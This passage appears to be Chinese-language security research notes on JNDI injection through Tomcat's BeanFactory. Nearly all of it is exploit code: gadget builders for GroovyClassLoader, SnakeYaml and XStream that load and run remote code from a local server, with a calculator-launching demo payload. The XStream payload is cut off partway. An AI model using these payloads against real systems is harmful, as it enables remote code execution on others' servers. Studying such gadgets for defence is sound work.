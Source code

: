 #### GroovyClassLoader

和MLet基本原理一样，但GroovyClassLoader可以实现RCE(不过 Groovy 有 `groovy.lang.GroovyShell`可以用)

??? note "code"

    ```java title="Server"
    private static ResourceRef tomcatGroovyClassLoader() {
        ResourceRef ref = new ResourceRef("groovy.lang.GroovyClassLoader", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "a=addClasspath,b=loadClass"));
        ref.add(new StringRefAddr("a", "http://127.0.0.1:8888/"));
        ref.add(new StringRefAddr("b", "CC"));
        return ref;
    }
    ```

    ```groovy title="CC.groovy"
    @groovy.transform.ASTTest(value={assert Runtime.getRuntime().exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator")})
    class Person{}
    ```

#### SnakeYaml

??? note "code"

    ```java title="org.yaml.snakeyaml.Yaml().load(String)"
    private static ResourceRef tomcat_snakeyaml(){
        ResourceRef ref = new ResourceRef("org.yaml.snakeyaml.Yaml", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        String yaml = "!!javax.script.ScriptEngineManager [\n" +
                "  !!java.net.URLClassLoader [[\n" +
                "    !!java.net.URL [\"http://127.0.0.1:8888/exp.jar\"]\n" +
                "  ]]\n" +
                "]";
        ref.add(new StringRefAddr("forceString", "a=load"));
        ref.add(new StringRefAddr("a", yaml));
        return ref;
    }
    ```

#### XStream

??? note "code"

    ```java title="com.thoughtworks.xstream.XStream.fromXML(String)"
    private static ResourceRef tomcat_xstream(){
        ResourceRef ref = new ResourceRef("com.thoughtworks.xstream.XStream", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        String xml = "<java.util.PriorityQueue serialization='custom'>\n" +
                "  <unserializable-parents/>\n" +
                "  <java.util.PriorityQueue>\n" +
                "    <default>\n" +
                "      <size>2</size>\n" +
                "    </default>\n" +
                "    <int>3</int>\n" +
                "    <dynamic-proxy>\n" +
                "      <interface>java.lang.Comparable</interface>\n" +
                "      <handler class='sun.tracing.NullProvider'>\n" +
                "        <active>true</active>\n" +
                "        <providerType>java.lang.Comparable</providerType>\n" +
                "        <probes>\n" +
                "          <entry>\n" +
                "            <method>\n" +
                "              <class>java.lang.Comparable</class>\n" +
                "              <name>compareTo</name>\n" +
